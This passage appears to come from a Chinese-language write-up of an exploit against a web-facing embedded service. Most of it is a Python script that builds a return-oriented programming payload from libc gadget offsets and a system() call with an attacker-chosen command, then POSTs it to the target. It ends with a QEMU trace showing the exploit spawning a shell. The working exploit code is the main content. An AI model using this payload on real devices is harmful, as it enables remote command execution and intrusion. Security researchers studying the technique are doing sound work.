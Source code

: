 ````python
	payload += "&id=" + 'A'*0x80
	payload += "&payload="
	payload += 'A'*(786-4*8)
	info("padding length:0x%x"%(len(payload)))
	payload += p32(system_off + libc_addr - 0xc)
	payload += "S1S1"
	payload += p32(gadget_4 + libc_addr)
	payload += "S3S3"
	payload += p32(gadget_3 + libc_addr)
	payload += "S5S5"
	payload += p32(gadget_1 + libc_addr)
	payload += "S7S7"
	payload += p32(0xdeadbeef)
	payload += p32(gadget_5 + libc_addr)
	payload += '*'*24
	payload += cmd

	if '\x00' in payload or '\r\n' in payload:
		exit(-1)
	success("payload builded!")
	return payload

def pwn():
	payload = payload_maker()
 	f = open("payload", "wb")
	f.write(payload)
	f.close()

	head = {"Cookie":"", "Content-Type":"application/x-www-form-urlencoded", "Accept":"*/*"} #这里有总比没有好
	try:
		attack = requests.post(url=url, data=payload, headers=head)
		info("Attack.statu: %d"%(attack.status_code))
		info("response:\n" + attack.text)
	except requests.exceptions.ConnectionError:
		info("Attacked!")


if __name__ == '__main__':
	pwn()
````



由于没有实际设备，libc地址总是出错，索性用qemu模拟来验证Exp的可行(--trace)

```bash
6320 rt_sigaction(SIGCHLD,0x40800378,0x40800398) = 0
6320 execve("/bin/sh",{"sh","-c","/bin/bash",NULL}) = -1 errno=2 (No such file or directory)
6320 exit(127)
 = 6320
```
